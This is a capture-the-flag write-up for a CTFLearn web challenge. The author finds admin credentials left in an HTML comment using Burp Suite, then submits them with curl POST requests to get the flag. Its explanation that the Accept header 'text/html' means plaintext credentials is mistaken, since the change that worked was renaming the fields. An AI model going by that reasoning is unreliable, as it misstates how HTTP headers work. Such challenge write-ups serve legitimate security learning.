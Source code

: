 ## POST

This website requires authentication, via POST. However, it seems as if someone has defaced our site. Maybe there is still some way to authenticate? http://165.227.106.113/post.php

### Approach

This challenge was interesting. We are first presented with this page:

![page](https://github.com/RyanNgCT/CTFLearn/blob/main/Web/Medium/POST/dependencies/post.png)

Seems like something to do with `POST` requests, which I studied in my Web Application Pentesting Module last semester (at the time of writing).

I first fired up Burp Suite Community, turned on `Intercept Traffic` and reloaded the page. The proxy registered a suspicious `GET` response, containing the username and password of the user.
I found [this article](https://www.educative.io/edpresso/how-to-perform-a-post-request-using-curl), which seemed to be helpful.

![burp_resp](https://github.com/RyanNgCT/CTFLearn/blob/main/Web/Medium/POST/dependencies/Burp_resp.png)

I then proceeded on to craft the payload. The examplar payload given was:
```
$ curl -d "user=user1&pass=abcd" -X POST https://example.com/login
```

Replacing the fields with the corresponding information for this challenge, we get:
```
$ curl -d "user=admin&pass=71urlkufpsdnlkadsf" -X POST http://165.227.106.113/post.php
<h1>This site takes POST data that you have not submitted!</h1><!-- username: admin | password: 71urlkufpsdnlkadsf --> 
```

However, this failed to work out as shown in the output, which was exactly the same as the one we started out with. I thought this had something to do with `Base64` encoding since I experienced something similar in another CTF where we hasd to encode `No` in the Authorization header as `Tm8=`.
I crafted another payload:
```
$ curl -d "user=YWRtaW4=&pass=NzF1cmxrdWZwc2RubGthZHNm" -X POST http://165.227.106.113/post.php
<h1>This site takes POST data that you have not submitted!</h1><!-- username: admin | password: 71urlkufpsdnlkadsf -->  
```

Hmm... so its not an encoding issue? Trying something else, I replaced `user` with `username` and `pass` with `password`, since different websites may use different naming conventions (but I didn't change the encoding ofc, to experiment with one variable at a time.
```
$ curl -d "username=YWRtaW4=&password=NzF1cmxrdWZwc2RubGthZHNm" -X POST http://165.227.106.113/post.php
<h1>Seems like your credentials are wrong!</h1>
```

Wow... a different error message, we are getting super close! If we take a look carefully in the `GET` request in Burp, the Encoding field reads: `Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8`. Alamak!  🤦 I've done it again by not reading 😅😅
It accepts `text/html`, meaning **plaintext**!

![burp_req](https://github.com/RyanNgCT/CTFLearn/blob/main/Web/Medium/POST/dependencies/Burp_req.png)

So the final payload will be:
```
curl -d "username=admin&password=71urlkufpsdnlkadsf" -X POST http://165.227.106.113/post.php
<h1>flag{p0st_d4t4_4ll_d4y}</h1> 
```

And we get the flag `flag{p0st_d4t4_4ll_d4y}`.


